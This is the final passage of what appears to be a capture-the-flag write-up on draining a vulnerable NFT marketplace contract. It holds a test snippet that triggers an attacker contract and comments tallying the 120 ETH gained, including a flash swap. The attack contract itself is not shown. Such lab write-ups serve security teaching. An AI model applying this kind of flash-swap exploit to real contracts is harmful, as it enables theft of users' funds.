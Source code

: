 ```js

	// Attack
	await this.attackerContract.connect(attacker).attack(NFT_PRICE)

	// Attacker balance = 120 ETH
	// NFT transfers = (6 NFTs * 15 ETH ) - 15 WETH of flash swap = 75 ETH
	// 45 ETH (Payout) + 75 ETH (NFT transfers) = 120 ETH
	console.log('Attacker ETH balance:', String(await ethers.provider.getBalance(attacker.address)))
})
```

After that, we’ve done what we wanted. The buyer has the 6 NFTs he wanted, we got 120 ETH on our hands (starting with 0.5) and the marketplace is left with nothing.









































